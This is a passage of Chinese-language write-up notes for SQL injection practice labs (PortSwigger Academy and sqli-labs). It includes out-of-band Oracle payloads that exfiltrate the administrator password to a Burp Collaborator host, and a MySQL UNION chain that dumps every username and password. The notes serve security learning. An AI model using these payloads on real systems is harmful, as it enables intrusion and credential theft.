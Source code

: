     TrackingId=BJ99jOxzTuHmylNK'+union+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//3pt6n9w8xjd063qmlbbf0c2n7ed91y.burpcollaborator.net">+%25remote%3b]>'),'/l')+FROM+dual--

4.发送后即可在collaborator client看到查询结果

###lab16带数据泄露的DNS查询###
利用out-of-band查询，采用SQL注入，泄露administrator密码
1.打开burp collaborator client，copy下唯一的collaborator编号域名
2.参考SQL sheet，知道oracle的泄露数据的DNS查询语句如下：

    SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

3.将collaborator编号域名填入，在"(SELECT YOUR-QUERY-HERE)"处填入要查询的语句，最终编辑的payload如下：

    TrackingId=QuzbePsRhIzhHgED'+union+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+from+users+where+username%3d'administrator')||'.e8nzurj4a5exb5oaa9ajpyy3eukk89.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

4.在collaborator client中得到响应数据，查看HTTP请求中的request-to-collaborator部分，注意不是response，获取的password在"e8nzurj4a5exb5oaa9ajpyy3eukk89.burpcollaborator.net"之前显示。
##二、sqli-labs-master##

###Less-3###
输入id=1'

    反馈You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1

对照源码：

    $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
    $result=mysql_query($sql);
    
接着依次获取信息：

    ?id=1') order by 3 --+ 相应正确，确定只有3个column
    ?id=1') union select 'a','a','a' --+ 响应正确，确定数据类型为字符串
    ?id=-1') union select 'a',@@version,'a' --+ 这里id改为-1，是由于界面只输入一行数据，所有把id定为-1，该查询显示无数据。该查询结果为5.7.26，猜测为mysql
    ?id=-1') union select null, version(),database() --+ 得到名为security的数据库
    ?id=-1') union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+ 查看所有数据库，进一步确认security的数据库
	?id=-1') union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+ 查看security中所有table_name,确定users的table
	?id=-1') union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='user')--+ ,确定username和password
	?id=-1') union select 1,2,(select group_concat(username,'~',password) from users)--+，得到所有用户名和密码。
    也可以采用?id=-1') union select 1,group_concat(username,'~',password),3 from users--+ 得到所有用户名和密码

###lab4###
输入id=1'  没报错
输入id=1"  
